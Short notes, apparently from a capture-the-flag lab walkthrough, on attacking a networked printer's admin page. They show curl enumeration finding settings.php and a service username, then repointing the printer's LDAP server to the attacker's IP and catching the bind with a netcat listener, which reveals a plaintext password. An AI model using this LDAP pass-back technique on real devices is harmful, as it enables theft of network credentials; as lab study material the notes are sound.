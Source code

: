 we can access the printer admin page but website doesn't load correctly.

we use `curl 10.129.230.186 | html2text` to try and see what the page looks like

we see there is a `settings` portion

we use `curl` again to try to find what directory `settings` is located in

`curl 10.129.230.186 | grep settings`

we find `settings.php`

---

we find a username: 
`svc-printer`

--- 

Looks like this printer is communicating with LDAP. We can edit the server address to our IP. Then we set up a listener on port 389

`sudo nc -lvnp 389`

Once we click update it sends this back to us


```
1edFg43012!!
```

